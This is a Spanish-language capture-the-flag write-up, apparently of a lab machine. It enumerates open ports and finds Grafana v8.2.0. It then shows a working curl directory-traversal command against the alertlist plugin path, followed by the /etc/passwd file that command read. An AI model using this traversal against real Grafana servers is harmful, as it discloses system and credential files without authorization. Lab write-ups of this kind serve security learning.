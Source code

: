 Tiene abiero el puerto SSH (22), dos servicios HTTP (80,3000) y el MySQL(3306) expuestos. Si entramos en el puerto 80 podemos encontrar una página que nos proporciona información sobre el iniciar sesión por SSH. Explican que para conectarse a la máquina hay que usar el usuario "developer" y que la contraseña nos la dará el equipo de DevOps. El puerto 80 no tiene nada mas...

El puerto  3000 tiene un grafana de versión v8.2.0. Podemos verla directamente en la página o desde curl.

```bash
❯ curl  -s "http://10.10.11.183:3000/login" | grep "v8"
          navTree: [{"id":"dashboards","text":"Dashboards","subTitle":"Manage dashboards and folders","icon":"apps","url":"/","sortWeight":-1900,"children":[{"id":"home","text":"Home","icon":"home-alt","url":"/","hideFromTabs":true},{"id":"divider","text":"Divider","divider":true,"hideFromTabs":true},{"id":"manage-dashboards","text":"Manage","icon":"sitemap","url":"/dashboards"},{"id":"playlists","text":"Playlists","icon":"presentation-play","url":"/playlists"}]},{"id":"alerting","text":"Alerting","subTitle":"Alert rules and notifications","icon":"bell","url":"/alerting/list","sortWeight":-1600,"children":[{"id":"alert-list","text":"Alert rules","icon":"list-ul","url":"/alerting/list"}]},{"id":"help","text":"Help","subTitle":"Grafana v8.2.0 (d7f71e9eae)","icon":"question-circle","url":"#","sortWeight":-1200,"hideFromMenu":true}],
```

### Directory Traversal and Arbitrary File Read

Si hacemos la búsqueda de la versión en google podemos ver que es vulnerable a  Directory Traversal and Arbitrary File Read. Podemos explotarlo con curl.

```bash
❯ curl "http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd" --path-as-is
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```